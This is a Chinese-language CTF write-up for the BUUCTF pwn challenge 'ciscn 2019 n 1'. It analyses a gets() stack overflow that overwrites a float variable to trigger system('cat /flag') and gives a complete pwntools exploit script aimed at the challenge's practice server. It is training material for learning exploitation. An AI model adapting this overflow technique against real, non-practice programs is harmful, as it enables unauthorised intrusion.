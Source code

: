 ```yaml
---
author: 
  name: Zephyr
title: ciscn 2019 n 1
date: 2022-3-19 20:30:09
permalink: /pages/2e944742e534d18b
tags: 
  - buuctf
  - pwn
  - StackOverflow
---
```


# ciscn 2019 n 1

## 前提

### 查看文件保护

```shell
root@localhost ~# checksec ciscn_2019_n_1
[*] '/root/ciscn_2019_n_1'
    Arch:     amd64-64-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      No PIE (0x400000)
```

## 静态分析

主函数未发现漏洞点，漏洞在函数func如图

```c
int func()
{
  int result; // eax
  char v1[44]; // [rsp+0h] [rbp-30h] BYREF
  float v2; // [rsp+2Ch] [rbp-4h]

  v2 = 0.0;
  puts("Let's guess the number.");
  gets(v1);
  if ( v2 == 11.28125 )
    result = system("cat /flag");
  else
    result = puts("Its value should be 11.28125");
  return result;
}
```



发现溢出函数`gets`，另外若`v2==11.28125`成立，则直接可获得`flag`

## 思路分析

1. 分析:
   - `v1`处可溢出
   - `v1`与`v2`同时是栈上变量
   - `v2=0`
   - 当`v2=11.28125`时可直接获得`flag`
2. 思路:
   - 从`v1`直接溢出到`v2`处将`v2`修改为`11.28125`即可获得`flag`

## 确定偏移量

- 通过`ida`及简单的调试可知从`v1`到`v2`的偏移量为`0x30-4`

## 问题

`pwntools`中的`flat`无法打包`float`类型变量:

- 需要进行手动转换处理

```python
import struct
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
```

## exp

```python
from pwn import *
import struct
context(os='linux', arch='amd64', log_level='debug')
pwnfile = '/root/pwn/buuctf/ciscn_2019_n_1/ciscn_2019_n_1'
# io = process(pwnfile)
io = remote('node4.buuoj.cn', 27944)
padding = 0x30-4
v1 = 11.28125
v1 = int(hex(struct.unpack('<I', struct.pack('<f', v1))[0]), 16)  # 4字节浮点数转16进制
payload = flat(['a'*padding, v1])
io.recv()
io.sendline(payload)
io.interactive()
```